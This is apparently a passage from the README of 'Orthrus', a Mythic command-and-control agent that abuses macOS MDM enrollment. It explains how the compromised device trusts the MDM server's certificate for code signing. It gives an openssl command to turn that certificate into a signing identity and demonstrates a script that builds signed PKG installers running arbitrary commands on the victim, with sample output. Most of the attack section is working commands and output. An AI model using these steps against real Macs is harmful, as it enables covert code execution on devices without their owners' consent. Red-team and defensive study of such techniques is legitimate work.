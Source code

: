 and you're good to go.

## Notable Features
- No custom code introduced to the device.
- No beaconing behaviour, Orthrus will check in to Mythic when the operator tells it to using the `force_callback` command.
- SSL certificate of the MDM server trusted for code signing upon installation.
- Install PKG installers or Profiles.

## Executing Packages

### Signing

`mdmclient` will only execute packages that have been signed. If you do not use a signed package, it will silently fail. Usefully, the compromised device will install the TLS certificate of the MDM server (specified in the config) as a CA trusted for code sigining.

First, on an attacker box. Build a PFX file using the certificate and key from the MDM server.

```
openssl pkcs12 -export -out mdm.pfx -inkey mdm.key -in mdm.crt
```

Open the resulting pfx file to install it into the keychain.

The certificate can now be used as a signing identity. 


### pkg-cmd-helper

To automate the process of creating a signed package. I've put together a rough bash script to build packages that execute bash command, and subsequently sign them with an identity - [pkg-cmd-helper.sh](https://gist.github.com/rookuu/49ea14a50854542ca7f5cde70962e502).

```
➜  ./pkg-cmd-helper.sh -h
Command line helper to generate pkg files that execute commands.
Author: @rookuu

Syntax: gen.sh -i com.malicious.pkg -o installme.pkg [-s 'My Signing Identity'] command
options:
-h     Print this Help.
-i     Identifier for the package.
-o     File name for the output package.
-s     (optional) Identity to use when signing the package.

➜  ./pkg-cmd-helper.sh -i com.rookuu.pkg -o example.pkg -s 192.168.0.5 mkdir /tmp/hacked
Building in /var/folders/fc/lc78954d3mnfvn4wbz8_20nc0000gn/T/tmp.mmsY0R6i
pkgbuild: Adding top-level preinstall script
pkgbuild: Wrote package to /var/folders/fc/lc78954d3mnfvn4wbz8_20nc0000gn/T/tmp.mmsY0R6i/temp.pkg
productbuild: Wrote product to /var/folders/fc/lc78954d3mnfvn4wbz8_20nc0000gn/T/tmp.mmsY0R6i/temp_dist.pkg
productsign: signing product with identity "192.168.0.5" from keychain /Library/Keychains/System.keychain
productsign: Wrote signed product archive to /var/folders/fc/lc78954d3mnfvn4wbz8_20nc0000gn/T/tmp.mmsY0R6i/temp_dist_signed.pkg
Done, see: example.pkg
```
